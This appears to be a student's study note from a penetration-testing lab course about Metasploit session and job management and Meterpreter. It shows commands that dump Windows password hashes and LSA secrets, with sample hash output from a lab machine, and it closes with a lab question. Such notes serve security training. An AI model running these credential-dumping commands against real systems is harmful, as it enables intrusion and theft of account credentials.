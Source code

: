# 🆘 MSF Sessions

## Sessions & Jobs

`Sessions` creates dedicated control interfaces for all of your deployed modules. once a session is placed in the background, it will continue to run, and our connection to the target host will persist.

we can background the session as long as they form a channel of communication with the target host with `CRTL+Z`

We can use the `sessions` command to view our currently active sessions.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions
```

And we can interract with sessions with the `sessions -i [no.]` command

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

If, for example, we are running an active exploit under a specific port and need this port for a different module, we'll use `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

```shell-session
msf6 exploit(multi/handler) > jobs -h
```

When we run an exploit, we can run it as a job by typing `exploit -j`

**Running an Exploit as a Background Job**

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

If we want to list running jobs ->

```shell-session
msf6 exploit(multi/handler) > jobs -l
```

## Meterpreter

The `Meterpreter` Payload is a specific type of multi-faceted, extensible Payload that uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes.

Once we got our meterpreter shell with admin rights we can dump hashes with the following command&#x20;

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182
<SNIP>

meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
```

_**Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**_

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
